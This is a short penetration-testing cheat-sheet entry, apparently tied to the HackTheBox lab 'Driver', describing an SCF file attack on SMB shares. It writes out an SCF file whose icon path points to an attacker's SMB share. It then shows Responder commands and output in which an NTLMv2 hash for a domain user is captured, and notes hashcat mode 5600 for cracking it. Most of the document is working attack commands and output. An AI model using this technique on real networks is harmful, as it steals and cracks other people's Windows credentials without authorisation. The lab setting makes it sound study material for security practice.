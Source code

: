 ### scf file attack
if you have write access to a share, drop a scf file pointing to a responder share to capture hashes.

source: https://pentestlab.blog/2017/12/13/smb-share-scf-file-attacks/
lab: https://app.hackthebox.com/machines/Driver

- create the scf file
```bash
cat << EOF > exploit.scf       
[Shell]
Command=2
IconFile=\\10.10.14.74\share\exploit.ico
[Taskbar]
Command=ToggleDesktop
EOF
```

- drop the exploit on the share by any means
- start resonder and wait for connections:
```bash
sudo responder -w --lm -v -I tun0
                                         __
  .----.-----.-----.-----.-----.-----.--|  |.-----.----.
  |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
  |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                   |__|

           NBT-NS, LLMNR & MDNS Responder 3.1.1.0

  Author: Laurent Gaffie (laurent.gaffie@gmail.com)
  To kill this script hit CTRL-C

[...]

[SMB] NTLMv2 Client   : ::ffff:10.10.11.106
[SMB] NTLMv2 Username : DRIVER\tony
[SMB] NTLMv2 Hash     : tony::DRIVER:90915e30a4d61b55:EFD5982FC730F2132B289A758EF1AB26:010100000000000017D7481F870BD801DADD4A94693D22FF00000000020000000000000000000000
[...]
```

- crack with hashcat -m 5600